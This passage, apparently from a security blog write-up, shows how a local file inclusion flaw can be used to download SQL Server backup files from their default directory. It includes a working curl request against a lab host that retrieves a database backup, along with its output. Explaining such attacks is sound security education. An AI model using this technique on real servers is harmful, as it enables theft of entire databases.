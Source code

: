 [![](/assets/images/from-lfi-to-sql-database-backup/attached.png)](/assets/images/from-lfi-to-sql-database-backup/attached.png)

Finding and Restoring a Backup
----------------
The attack that is more likely to be successful, will be looking for a backup.

Like the database files, the default location for backups generated by SQL Server can be found within the instance directory, in a directory named `Backup`. The naming convention of the backup files is `${DATABASE_NAME}.bak`.

In this case, requesting the file located at `C:\Program Files\Microsoft SQL Server\MSSQL11.SQLEXPRESS\MSSQL\Backup\sensitive_af_db.bak` will successfully download the database backup (as this will not be actively locked by another process, unless SQL Server is part way through creating the backup):

```shell_session
rastating:~$ curl 'http://10.2.0.130:8080/?file=C:\Program%20Files\Microsoft%20SQL%20Server\MSSQL11.SQLEXPRESS\MSSQL\Backup\sensitive_af_db.bak' --output backup.bak
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2326k  100 2326k    0     0  90.8M      0 --:--:-- --:--:-- --:--:-- 90.8M
rastating:~$ file backup.bak
backup.bak: Windows NTbackup archive NT, with file catalog, soft size 1*512, software (0x1200): Microsoft SQL Server
```
